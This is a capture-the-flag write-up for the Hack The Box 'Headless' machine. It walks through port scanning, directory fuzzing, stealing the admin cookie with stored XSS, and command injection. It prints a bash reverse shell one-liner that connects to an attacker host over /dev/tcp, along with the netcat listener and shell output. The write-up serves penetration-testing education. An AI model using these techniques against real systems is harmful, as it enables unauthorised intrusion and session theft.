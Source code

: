 ![Headless](https://github.com/amalcew/htb-writeups/assets/73908014/9951c127-994a-4993-b32a-76f17c72ea1e)

## Reconnaissance & port scanning

Let's start testing the box with standard port scan:

```bash
# Nmap 7.94SVN scan initiated Fri Apr 12 16:49:35 2024 as: nmap -sV -sC --open -vvv -oA logs/initial_recon/initial 10.10.11.8
Nmap scan report for headless.htb (10.10.11.8)
Host is up, received conn-refused (0.025s latency).
Scanned at 2024-04-12 16:49:35 CEST for 97s
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXBmWeZYo1LR50JTs8iKyICHT76i7+fBPoeiKDXRhzjsfMWruwHrosHoSwRxiqUdaJYLwJgWOv+jFAB45nRQHw=
5000/tcp open  upnp?   syn-ack
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK

      ... SNIP ...
```

Interestingly, there is no open port 80, but there is enigmatic `5000 upnp` port open which returns a HTTP fingerprint. Looks like the box uses uncommon port for some website, let's check this.
After adding the IP to the `/etc/hosts/`, I've checked the discovered port:

![01-initial_webpage](https://github.com/amalcew/htb-writeups/assets/73908014/f1a1624b-cff8-413b-afee-115ae4ab2b8e)

Yup, that's a website! Let's continue the enumeration process with fuzzing the directories:

```bash
> ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://headless.htb:5000/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://headless.htb:5000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 117ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 77ms]
                        [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 155ms]
:: Progress: [87664/87664] :: Job [1/1] :: 441 req/sec :: Duration: [0:06:20] :: Errors: 0 ::

```

`ffuf` discovered two pages, `dashboard` and `support`. The first page is restricted and returns `401` error 

![image](https://github.com/amalcew/htb-writeups/assets/73908014/02df8610-83d2-40f9-a072-063fd1320891)


But the second one looks like a next step in this puzzle, as the page displays contact form.

![02-contact](https://github.com/amalcew/htb-writeups/assets/73908014/428190e3-6d4a-4878-a70c-27e27f7f9d74)

After submiting a form, the website redirects to the same form with no information if the message was delivered. What is interesting, when submitting message `{{ 4 * 4 }}` (to check if there is some SSTI or similar), the website returns this page:

![03-hacking_detected](https://github.com/amalcew/htb-writeups/assets/73908014/fae73d7f-008a-4c7c-b6e2-22ed564ed6d0)

This means that the website is indeed processing the message and that is a good sign. The other thing that I've noticed is the presence of `is_admin` cookie that does not look like it is changing, every time I make a request, the cookie is still the same:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/922916d9-ac2c-4048-b16e-162a2832227e)

This subtle nudge gives a hint, that the way to penetrate the website will require stealing the administrator's cookie, someway. Looking again at the 'Hacking detected' page, we can see that the incident has beem sent to the administrator for investigation

![image](https://github.com/amalcew/htb-writeups/assets/73908014/27e0f744-2634-4648-9f40-d0b51bb59db0)

## Initial foothold

### XSS cookie exfiltration

In theory, if the server recognizes the malicious input inside 'message' field, it means that it can be vulnerable to XSS attacks. There is a way to steal the cookies using XSS attack on the website, documented in [this post](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) and on [Portswigger's Academy](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies).

The way it is done is relatively simple. Threat actor needs to send a malicious content to the server which will be triggered when someone displays a page that contains it. This type of attack is called **stored XSS**, as the payload lays on the server and is activated by the victim.
After many attempts I've managed to intercept the cookie encoded in base64, by using some techniques from Portswigger's Lab and from the post:

![04-exfiltrated_cookie_1](https://github.com/amalcew/htb-writeups/assets/73908014/ce1ed470-814f-40fd-9405-11098e14aeee)

The probable reason why the payload was required to be sent inside `User-Agent` field is the fact, that the `Hacking detected` page contains this field as one of the evidences, but not `message` content. That's why no attempt with stealing the cookie by using the `message` field was successful.

The output now needs to be decoded from base64 and inserted into the cookie value:

```bash
> echo **** | base64 -d
is_admin; is_admin=ImFk**********************XpH0 
```

![05-dashboard](https://github.com/amalcew/htb-writeups/assets/73908014/ef08bc73-4754-4860-9666-f92b96e5cbad)

Nice! The dashboard allows to pass a date that is used to generate a dummy report. 

### Command injection

It took me a while to leverage this field using Burp Suite, but after some tinkering I've found out, that this field is vulnerable to command injection:

![06-command_injection](https://github.com/amalcew/htb-writeups/assets/73908014/c6a58aee-2fed-4c4a-8705-d30695f31bfb)

As we know the vulnerability, the next step is to gain access to the `dvir` user by spawning reverse shell. To do this we can use simple `bash` shell, encoded as base64:

```bash
> echo 'bash -i >& /dev/tcp/xx.xx.xx.xx/1234 0>&1' | base64 -w 0
YmFz****************************************************Cg==
```

and passed in Burp as payload, with some URL encoding of the key characters:

![image](https://github.com/amalcew/htb-writeups/assets/73908014/b3e95b10-26b1-4c0d-97b5-4d7a9c06717a)

```bash
> nc -lnvp 1234                                                  
listening on [any] 1234 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [10.10.11.8] 51764
bash: cannot set terminal process group (1371): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.2$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

This was sufficient to read the user flag:

```bash
bash-5.2$ cat user.txt  
cat user.txt
c0****************************22
```
